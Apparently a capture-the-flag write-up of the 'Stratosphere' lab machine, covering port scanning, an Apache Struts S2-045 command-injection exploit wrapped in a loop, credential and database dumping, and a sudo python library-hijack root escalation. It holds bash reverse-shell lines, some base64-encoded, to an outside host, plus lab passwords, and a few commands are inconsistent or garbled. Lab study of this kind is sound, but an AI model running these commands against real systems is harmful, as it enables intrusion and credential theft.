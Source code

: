 ﻿### Stratosphere

````
nmap -A -T4 -v -oN full.nmap -p- 10.10.10.64

22/tcp   open  ssh        OpenSSH 7.4p1 Debian 10+deb9u2 (protocol 2.0)
80/tcp   open  http
8080/tcp open  http-proxy
````
Found 22, 80, 8080 ports are open, so I checked out both port 80 and 8080 and I ran gobuster on both ports as there was not much to see on the sites.
````
gobuster dir -t 50 -x js,jsp,txt,html,xml -u http://10.10.10.64/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-big.txt | tee gobuster
directory-list-2.3-big.txt                                         

/index.html (Status: 200)
/main.js (Status: 200)
/manager (Status: 302)
/GettingStarted.html (Status: 200)
/Monitoring (Status: 302)
````
I tried some default credentials on the /manager but did not work and I also tried a Metasploit exploit for tomcat but it did not work.
````
msf6 > search tomcat

Matching Modules
================

   #   Name                                                         Disclosure Date  Rank       Check  Description
   -   ----                                                         ---------------  ----       -----  -----------

 8   auxiliary/scanner/http/tomcat_mgr_login                                       normal     No     Tomcat Application Manager Login Utility
````

The other interesting hit was /Monitoring
````
http://10.10.10.64:8080/Monitoring/example/Menu.action
````
I tried to look at the login page, but it wasn't working neither was the register page.
I also tried triggering 404 error page to find out the web server version and look for an exploit but nothing.
After taking a step back and checking what I know and what I have, something caught my eye. The . action extension was very unfamiliar to me, so I googled it. I found this:
````
https://stackoverflow.com/questions/1369591/action-extension-what-is-it/1369605
````
With this new information I tried to look for a CVE for Apache Struts Exploit and I found a couple of hits

I tried the following CVE which was available in msfdb but no luck
````
Tried: https://www.cvedetails.com/cve/CVE-2018-11776/
````
````
msf6 > search struts

Matching Modules
================

   #   Name                                                     Disclosure Date  Rank       Check  Description
   -   ----                                                     ---------------  ----       -----  -----------
   2   exploit/multi/http/struts2_namespace_ognl                2018-08-22       excellent  Yes    Apache Struts 2 Namespace Redirect OGNL Injectio Execution
````


I went back to CVE details to look around and I saw a CVE with a score of 10.0 so I decied to try that.

````
https://www.cvedetails.com/cve/CVE-2018-11776/
````
I found the exploit on exploit db
````
https://www.exploit-db.com/exploits/41570
````
I tried to get a shell for about an hour, but I could not achieve an interactive shell (see below)
and it was a bit annoying to have to run the exploit every time, so I decided to modify the exploit a little bit:
````
if __name__ == '__main__':
    import sys
    if len(sys.argv) != 2:
        print("[*] struts2_S2-045.py <url>")
    else:
        print('[*] CVE: 2017-5638 - Apache Struts2 S2-045')
        url = sys.argv[1]
        while True:
	        cmd = raw_input("cmd>")
	        exploit(url, cmd)
````
Ways I tried to get an interactive shell (Bash reverse shell, base64 encoded bash reverse shell, tried to write it into a file and then execute the script, curl did not work either). Probably there is a firewall setting blocking external connection to the target machine.

````
python exploit.py  http://10.10.10.64:8080/Monitoring/example                                                                              
[*] CVE: 2017-5638 - Apache Struts2 S2-045
cmd> ls
conf
db_connect
lib
logs
policy
webapps
work

cmd> bash -i >& /dev/tcp/10.10.10.64/4444 0>&1

cmd>echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4zMi80NDQ0IDA+JjE= | base64 -d | bash

cmd>bash -c 'bash -i >& /dev/tcp/10.10.14.32/4444 0>&1'

cmd>echo "bash -i >& /dev/tcp/10.10.14.32/4444 0>&1" > /tmp/asd.sh   

cmd>bash -i >& /dev/tcp/10.10.14.32/4444 0>&1" > /tmp/asd.sh

cmd>cat /tmp/asd.sh  

cmd>bash /tmp/asd.sh

cmd>cat db_connect' 
id=tomcat8
user=Richard  
[ssn]
user=ssn_admin
pass=AWs64@on*&

[users]
user=admin
pass=admin

cmd>cd /root/.nvm/versions/node/v15.10.0/bin/conf;cat tomcat-users.xml"  
teampower:cd@6sY{f^+kZV8J!+o*t|<fpNy]F_(Y$
````
First, I tried the credentials found in tomcat-user.xml, however I could not login to tomcat admin UI.
I found other credentials in the db_connect file so I tried to connect to mySQL database.
Since I do not have an interactive hence, I use mysqldump to create a backup file (Ref.: https://stackoverflow.com/questions/9497869/export-and-import-all-mysql-databases-at-one-time)

````
python exploit.py  http://10.10.10.64:8080/Monitoring/example                                                                              
[*] CVE: 2017-5638 - Apache Struts2 S2-045
cmd>mysqldump -u admin -padmin --all-databases --skip-lock-tables  

cmd>mysqldump -u admin -padmin --all-databases --skip-lock-tables > pls.sql
/bin/bash: pls.sql: Permission denied

cmd>mysqldump -u admin -padmin --all-databases --skip-lock-tables > /tmp/pls.sql

cmd>cat /tmp/pls.sql
[...]
INSERT INTO `accounts` VALUES ('Richard F. Smith','9tc*rhKuG5TyXvUJOrE^5CK7k','richard');
[...]
````

After getting the password for Richard I tried to ssh in with the following credentials: richard:9tc*rhKuG5TyXvUJOrE^5CK7k

````
sudo -l
(ALL) NOPASSWD: /usr/bin/python* /home/richard/test.py
````
**import hashlib** -> has to create another python script because python looking for dependencies ine the current working directory first

Creating hashlib.py in cwd:
````
import os
os.system('chmod +s /bin/bash')
````
After creating a hashlib.py in the cwd I ran the following command:
````
sudo /usr/bin/python3 /home/richard/test.py
````

And I checked if I got the suid binary on bash
````
richard@stratosphere:~$ ls -al /bin/
total 9588
drwxr-xr-x  2 root root    4096 Feb  5  2018 .
drwxr-xr-x 22 root root    4096 Feb 27  2018 ..
-rwsr-sr-x  1 root root 1099016 May 15  2017 bash
[...]
````

Finally run bash without -p flag to keep privileges.
````
 /bin/bash -p 
````

Other way to root to not conflict with other players.
````
import os
os.system('cp /bin/bash /tmp/asd')
os.system('chmod +s /tmp/asd')
````
````
-bash-4.4$ sudo /usr/bin/python3 /home/richard/test.py
-bash-4.4$ /tmp/asd -p
asd-4.4# id
uid=1000(richard) gid=1000(richard) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),112(lpadmin),116(scanner),1000(richard)
asd-4.4# 
````
